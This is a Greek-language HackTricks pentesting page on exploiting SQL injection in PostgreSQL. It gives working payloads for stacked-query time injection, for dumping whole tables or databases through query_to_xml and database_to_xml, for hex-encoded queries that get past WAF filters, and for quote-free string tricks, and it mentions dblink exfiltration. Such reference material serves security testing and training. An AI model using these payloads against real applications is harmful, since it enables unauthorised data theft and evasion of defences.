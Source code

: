 # PostgreSQL injection

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_fluent polish written and spoken required_).

{% embed url="https://www.stmcyber.com/careers" %}

***

**Αυτή η σελίδα έχει σκοπό να εξηγήσει διάφορα κόλπα που θα μπορούσαν να σας βοηθήσουν να εκμεταλλευτείτε μια SQL injection που βρέθηκε σε μια βάση δεδομένων postgresql και να συμπληρώσετε τα κόλπα που μπορείτε να βρείτε στο** [**https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)

## Network Interaction - Privilege Escalation, Port Scanner, NTLM challenge response disclosure & Exfiltration

Το **PostgreSQL module `dblink`** προσφέρει δυνατότητες για σύνδεση σε άλλες PostgreSQL περιπτώσεις και εκτέλεση TCP συνδέσεων. Αυτές οι δυνατότητες, σε συνδυασμό με τη λειτουργία `COPY FROM`, επιτρέπουν ενέργειες όπως η κλιμάκωση προνομίων, η σάρωση θυρών και η σύλληψη απαντήσεων προκλήσεων NTLM. Για λεπτομερείς μεθόδους εκτέλεσης αυτών των επιθέσεων, ελέγξτε πώς να [perform these attacks](network-privesc-port-scanner-and-ntlm-chanllenge-response-disclosure.md).

### **Exfiltration example using dblink and large objects**

Μπορείτε να [**διαβάσετε αυτό το παράδειγμα**](dblink-lo\_import-data-exfiltration.md) για να δείτε ένα παράδειγμα CTF του **πώς να φορτώσετε δεδομένα μέσα σε μεγάλα αντικείμενα και στη συνέχεια να εξάγετε το περιεχόμενο των μεγάλων αντικειμένων μέσα στο όνομα χρήστη** της συνάρτησης `dblink_connect`.

## PostgreSQL Attacks: Read/write, RCE, privesc

Ελέγξτε πώς να συμβιβάσετε τον host και να κλιμακώσετε προνόμια από το PostgreSQL στο:

{% content-ref url="../../../network-services-pentesting/pentesting-postgresql.md" %}
[pentesting-postgresql.md](../../../network-services-pentesting/pentesting-postgresql.md)
{% endcontent-ref %}

## WAF bypass

### PostgreSQL String functions

Η χειραγώγηση συμβολοσειρών θα μπορούσε να σας βοηθήσει να **παρακάμψετε WAFs ή άλλους περιορισμούς**.\
[**Σε αυτή τη σελίδα** ](https://www.postgresqltutorial.com/postgresql-string-functions/)**μπορείτε να βρείτε μερικές χρήσιμες συναρτήσεις συμβολοσειρών.**

### Stacked Queries

Θυμηθείτε ότι το postgresql υποστηρίζει στοίβες ερωτημάτων, αλλά πολλές εφαρμογές θα ρίξουν ένα σφάλμα αν επιστραφούν 2 απαντήσεις όταν αναμένονται μόνο 1. Αλλά, μπορείτε ακόμα να εκμεταλλευτείτε τις στοίβες ερωτημάτων μέσω Time injection:
```
id=1; select pg_sleep(10);-- -
1; SELECT case when (SELECT current_setting('is_superuser'))='on' then pg_sleep(10) end;-- -
```
### XML tricks

**query\_to\_xml**

Αυτή η συνάρτηση θα επιστρέψει όλα τα δεδομένα σε μορφή XML σε ένα μόνο αρχείο. Είναι ιδανική αν θέλετε να εξάγετε πολλά δεδομένα σε μία μόνο γραμμή:
```sql
SELECT query_to_xml('select * from pg_user',true,true,'');
```
**database\_to\_xml**

Αυτή η συνάρτηση θα εξάγει ολόκληρη τη βάση δεδομένων σε μορφή XML σε μόλις 1 γραμμή (προσοχή αν η βάση δεδομένων είναι πολύ μεγάλη καθώς μπορεί να προκαλέσετε DoS ή ακόμα και στον δικό σας πελάτη):
```sql
SELECT database_to_xml(true,true,'');
```
### Strings in Hex

Αν μπορείτε να εκτελέσετε **queries** περνώντας τα **μέσα σε μια συμβολοσειρά** (για παράδειγμα χρησιμοποιώντας τη λειτουργία **`query_to_xml`**). **Μπορείτε να χρησιμοποιήσετε το convert\_from για να περάσετε τη συμβολοσειρά ως hex και να παρακάμψετε τα φίλτρα με αυτόν τον τρόπο:** 

{% code overflow="wrap" %}
```sql
select encode('select cast(string_agg(table_name, '','') as int) from information_schema.tables', 'hex'), convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573', 'UTF8');

# Bypass via stacked queries + error based + query_to_xml with hex
;select query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,'')-- -h

# Bypass via boolean + error based + query_to_xml with hex
1 or '1' = (query_to_xml(convert_from('\x73656c656374206361737428737472696e675f616767287461626c655f6e616d652c20272c272920617320696e74292066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573','UTF8'),true,true,''))::text-- -
```
{% endcode %}

### Απαγορευμένα αποσπάσματα

Εάν δεν μπορείτε να χρησιμοποιήσετε αποσπάσματα για το payload σας, μπορείτε να το παρακάμψετε με το `CHR` για βασικές ρήτρες (_η σύνθεση χαρακτήρων λειτουργεί μόνο για βασικά ερωτήματα όπως SELECT, INSERT, DELETE, κ.λπ. Δεν λειτουργεί για όλες τις δηλώσεις SQL_):
```
SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
```
Ή με `$`. Αυτές οι ερωτήσεις επιστρέφουν τα ίδια αποτελέσματα:
```
SELECT 'hacktricks';
SELECT $$hacktricks$$;
SELECT $TAG$hacktricks$TAG$;
```
<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Αν ενδιαφέρεστε για **καριέρα στον hacking** και να χακάρετε το μη χακάρισμα - **προσλαμβάνουμε!** (_απαιτείται άπταιστη γραφή και ομιλία στα πολωνικά_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
